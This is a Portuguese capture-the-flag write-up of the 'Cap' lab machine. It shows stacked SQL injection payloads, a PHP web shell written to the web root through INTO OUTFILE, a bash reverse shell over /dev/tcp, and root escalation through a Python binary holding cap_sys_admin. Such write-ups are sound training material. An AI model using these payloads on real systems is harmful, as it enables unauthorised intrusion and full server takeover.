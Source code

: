 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Cap"
tags: pt-br ctf write-up
---
```


Essa máquina foi feita pelo Kadu para a classificatória do UHCv35.

# Recon

Iniciando o desafio e pegando a url podemos observar que ele tem uma página um tanto quanto estranha, parece ser uma API, já que retorna um objeto JSON:

![/assets/cap/Untitled.png](/assets/cap/Untitled.png)

Vamos então partir direto para o fuzzing, vou rodar a wordlist common.txt e a quiclhits.txt:

common.txt:

![/assets/cap/Untitled%201.png](/assets/cap/Untitled%201.png)

quickhits.txt:

![/assets/cap/Untitled%202.png](/assets/cap/Untitled%202.png)

Achamos um arquivo de backup! Vou baixar e abrir no visual studio code.

![/assets/cap/Untitled%203.png](/assets/cap/Untitled%203.png)

Hora de debugar!

Esse código basicamente é uma tentativa de um tipo de API para interagir com algum tipo de banco de dados, ele pega informações de databases e é capaz de inserir informações também, podemos perceber que ele usa um micro framework chamado Slim. ([https://www.slimframework.com/docs/v2/](https://www.slimframework.com/docs/v2/))

Essa parte envolve muito code review, que é inclusive o nome do challenge da primeira flag. Fui testando tudo e lendo os erros (debug mode estava ativo).

Dando uma lida e debugando um pouco podemos perceber que existe uma rota dessa api que faz uma consulta no banco de dados na tabela usuarios.

Rota:

```bash
https://cap.uhclabs.com/_ul/uploads/0
```

Código:

![/assets/cap/Untitled%204.png](/assets/cap/Untitled%204.png)

Basicamente aonde está escrito :controller é aonde vamos inserir o nome do arquivo que contém a classe que vamos usar, no caso vamos ussar o usuarios.class.php, e :parametrer sera o $data que será passado na query da consulta como podemos ver aqui:

![/assets/cap/Untitled%205.png](/assets/cap/Untitled%205.png)

Agora vamos rodar:

Testei alguns ids e no 2 temos a primeira flag hehe:

![/assets/cap/Untitled%206.png](/assets/cap/Untitled%206.png)

Certo, como podemos perceber no código, nossos parâmetros não passam por nenhum tipo de tratamento, obviamente o site está vulnerável a Sql injection.

![/assets/cap/Untitled%207.png](/assets/cap/Untitled%207.png)

Então vamos ver o que podemos fazer aqui.

# Exploitation 
## Sql Injection

Podemos observar que o banco de dados usado é o MariaDB.

Vamos começar tentando mandar querys para a aplicação.

Para demonstrar o que está acontecendo irei mostrar as payloads e como a query está sendo executada no site.

- A primeira coisa que irei fazer vai ser tentar adicionar um usuário, ja que temos o código sabemos o nome da tabela...

```bash
cap.uhclabs.com/_ul/usuarios/1;insert%20into%20usuarios%20(nome)%20values%20('big0us')
```

Com um Url encode na nossa payload se enviarmos, a query ficará assim:

```sql
SELECT * from usuarios where id=1; insert into usuarios (nome) values ('big0us');
```

Enviando mais algumas vezes podemos ver que nosso usuário já está no banco de dados com a seguinte rota:

```
cap.uhclabs.com/_ul/usuarios/0
```

- No MariaDB existe um comando que possibilita salvar o resultado da query em um arquivo...
- Lendo o código fonte, podemos abrir arquivos que estiverem no /classes/ apenas enviando um request POST, com o nome do arquivo sem o .classes e sem o .php...

![/assets/cap/Untitled%208.png](/assets/cap/Untitled%208.png)

- Se pudermos salvar arquivos de consultas de querys em qualquer diretório e podemos escrever e rodar arquivos no servidor, temos tudo para conseguir um RCE. Mas como?
- (Existem várias formas de fazer isso vou descrever como eu fiz)
- Já que posso criar um usuário, vou criar um usuário contendo um código php no nome, assim quando eu jogar isso para dentro de um arquivo, será executado... Então vamos as payloads:

URL:

```
cap.uhclabs.com/_ul/usuarios/1;1%3Bselect%20into%20usuarios%20%28nome%29%20values%20%28%27%3C%3Fphp%20system%28%24%5FGET%5B0%5D%3F%3E%27%29%29
```

Query:

```sql
select into usuarios (nome) values ('<?php system($_GET[0]?>'))
```

E agora com o usuário criado, vamos fazer uma consulta que retorne o nome do usuário, e salvar isso em um arquivo... (dei o nome de "u")

URL:

```
cap.uhclabs.com/_ul/usuarios/1%3Bselect%20%2A%20from%20usuarios%20into%20outfile%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fu%2Eclass%2Ephp%27
```

Query: 

```sql
select * from usuarios into outfile '/var/www/html/classes/u.class.php'
```

Agora que já montamos nosso arquivo malicioso vamos ao request:

![/assets/cap/Untitled%209.png](/assets/cap/Untitled%209.png)

Agora que temos RCE vamos pegar uma shell.

# Pós exploitation 
## Root Capability

Utilizei uma payload simples encodada em url encode:

```bash
bash -c "bash -i >& /dev/tcp/ip/porta 0>&1"
```

![/assets/cap/Untitled%2010.png](/assets/cap/Untitled%2010.png)

```
Full tty shell
in your shell~ python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
in your terminal~ stty raw -echo; fg
ENTER
in your shell~ export TERM=xterm
```

Indo até o / podemos encontrar nossa flag!

![/assets/cap/Untitled%2011.png](/assets/cap/Untitled%2011.png)

Rodando alguns comandos de enumeração logo pude encontrar qual é a vulnerabilidade do priv esc (o linpeas teria achado), o comando que eu rodei para encontra-la é o getcap, que mostra para nós os capabilities que os binários do linux possuem.

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![/assets/cap/Untitled%2012.png](/assets/cap/Untitled%2012.png)

Podemos ver que o python está com um capability chamado sys_admin, dando uma olhada no hacktricks sobre como explorar isso, podemos ver que existe uma forma de sobrescrevermos o arquivo /etc/passwd adicionando uma senha que nós sabemos para o usuário root.

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin)

![/assets/cap/Untitled%2013.png](/assets/cap/Untitled%2013.png)

Exploitation:

![/assets/cap/Untitled%2014.png](/assets/cap/Untitled%2014.png)

![/assets/cap/Untitled%2015.png](/assets/cap/Untitled%2015.png)

![/assets/cap/Untitled%2016.png](/assets/cap/Untitled%2016.png)

![/assets/cap/Untitled%2017.png](/assets/cap/Untitled%2017.png)

Depois de rodar o exploit damos um:

![/assets/cap/Untitled%2018.png](/assets/cap/Untitled%2018.png)

E ai está nossa flag, parabéns kadu pela máquina e obrigado a você que leu até aqui!